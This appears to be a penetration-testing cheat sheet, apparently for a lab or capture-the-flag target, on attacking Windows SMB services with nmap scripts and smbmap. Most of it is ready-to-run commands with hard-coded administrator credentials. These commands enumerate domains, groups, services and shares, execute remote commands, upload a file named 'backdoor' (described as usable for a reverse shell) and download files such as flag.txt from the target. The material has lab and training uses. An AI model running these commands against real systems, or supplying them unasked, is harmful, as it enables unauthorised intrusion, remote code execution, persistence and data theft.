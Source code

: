 ### Server Stats
```
nmap -p445 --script smb-server-stats --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.1
```
It is used to obtain server statistics like: failed logins, permission errors, system errors, print job, files opened.

### Discovery domain
```
nmap -p445 --script smb-enum-domains --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.1
```
It enumerates domain general information.

### Discovery groups
```
nmap -p445 --script smb-enum-groups --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.1
```
### Discovery services
```
nmap -p445 --script smb-enum-services --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.1
```
### Discovery shared folders and their content
```
nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.1
```
### Discovery OS via SMB
```
nmap 192.168.1.1 -p 445 --script smb-os-discovery
```

## SMBMap
```
smbmap -u guest -p “” -d . -H 10.10.10.1
```
This command enumerates shared folders, along with their permissions, via the username "guest" and an empty password.
```
smbmap -u administrator -p smbserver_771  -H 10.10.10.1 -x ‘ipconfig’
```
This feature enables the execution of CLI commands via the administrator’s username and password. This vulnerability is classified as Remote code execution (RCE).
```
smbmap -u administrator -p smbserver_771  -H 10.10.10.1 -L
```
This feature lists all available drives on the target machine.
```
smbmap -u administrator -p smbserver_771  -H 10.10.10.1 -r ‘C$’
```
It lists all folders in the main folder.
```
smbmap -u administrator -p smbserver_771  -H 10.10.10.1 —upload ‘/root/backdoor’ ‘C$\backdoor’
```
This command facilitates the uploading of a file to the target machine. For instance, it can be used to upload a reverse shell.
```
smbmap -u administrator -p smbserver_771  -H 10.10.10.1 —download ‘C$\flag.txt’
```
This command is used to download files from the target.
